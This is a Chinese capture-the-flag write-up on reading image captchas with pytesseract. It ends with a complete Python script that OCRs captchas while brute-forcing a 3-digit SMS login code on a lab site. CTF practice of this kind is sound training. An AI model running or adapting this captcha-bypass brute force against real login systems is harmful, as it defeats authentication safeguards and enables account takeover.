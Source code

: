 ```yaml
---
利用tesseract识别验证码
​---

# 0x00 问题来源 
> 问题来源于于一道ctf，http://lab1.xseclab.com/vcode7_f7947d56f22133dbc85dda4f28530268/index.php​

# 0x01 基本原理
利用python将图片化为灰度图（只有黑白两色），根据颜色将图片化为01值，然后用  pytesseract 模块识别，这个模块Windows下需要安装tesseract支持。

---
```

# 0x02 环境搭建
我使用的是Windows,

安装需要的库
pip install PIL
pip install pillow
pip install pytesseract
安装完导入一下查看是否成功

安装tesseract
下载：https://sourceforge.net/projects/tesseract-ocr-alt/files/​

下载那个 tesseract-ocr-setup-3.02.02.exe ，操作简单一些，直接选好路径安装据可以了

配置pytesseract
这个好像python2可以不配置，但是python3不配置的话好像调用不了image_to_string函数，具体配置过程如下：

找到如下文件：

`c:/Users/xxxx/AppData/Local/Programs/Python/Python37/Lib/site-packages/pytesseract/pytesseract.py`

大概在第25行左右：

`tesseract_cmd = 'tesseract'`

改为tesseract.exe的路径

`tesseract_cmd = 'D:/tesseract/Tesseract-OCR/tesseract.exe'`

# 0x03 使用
```
from PIL import Image
from pytesseract import image_to_string

#颜色大于140的置1 小于的置0
def initTable(threshold = 140):
    table = []
    for i in range(256):
        if i< threshold:
            table.append(0)
        else:
            table.append(1)
    return table

#打开图片
im = Image.open('vcode.png')
#减少图片的色彩，化为灰度图
im = im.convert('L')
#将灰度图二值化
binaryImage = im.point(initTable(),'1')
#显示处理过后的图片binaryImage.show()
#识别文本  这个config可以根据自己的需要设置 如下
"""
-psm N
    Set Tesseract to only run a subset of layout analysis and assume a certain form of image. The options for N are:

    0 = Orientation and script detection (OSD) only.
    1 = Automatic page segmentation with OSD.
    2 = Automatic page segmentation, but no OSD, or OCR.
    3 = Fully automatic page segmentation, but no OSD. (Default)
    4 = Assume a single column of text of variable sizes.
    5 = Assume a single uniform block of vertically aligned text.
    6 = Assume a single uniform block of text.
    7 = Treat the image as a single text line.
    8 = Treat the image as a single word.
    9 = Treat the image as a single word in a circle.
    10 = Treat the image as a single character.
"""
print(image_to_string(binaryImage,config='-psm 7'))
```
# 0x04 原题解题脚本
思路：手机验证码三位，用爆破，vcode.png直接识别

```
import requests
from PIL import Image
from pytesseract import image_to_string
# 图像识别
def initTable(threshold = 140):
    table = []
    for i in range(256):
        if i< threshold:
            table.append(0)
        else:
            table.append(1)
    return table
def imagevcode_to_string(url):
    im = Image.open(url)
    im = im.convert('L')
    binaryImage = im.point(initTable(),'1')
    return image_to_string(binaryImage,config='-psm 7')

s = requests.session()
url = 'http://lab1.xseclab.com/vcode7_f7947d56f22133dbc85dda4f28530268/'
r = s.get(url)
s.post(url+"mobi_vcode.php",data={'getcode':'1','mobi':'13388886666'})
for i in range(100,1000):
    print('测试手机验证码：'+str(i))
    img = s.get(url+'vcode.php')
    with open("vcode.png",'wb') as f:
        f.write(img.content)
    j = imagevcode_to_string('vcode.png')
    r = s.post(url+'login.php',data={'username':'13388886666','mobi_code':i,'user_code':j,'Login':'submit'})
    if 'error' not in r.text:
        print('正确验证码为：'+str(i))
        print(r.text)
        break
```

验证码识别还可以用PKAV HTTP Fuzzer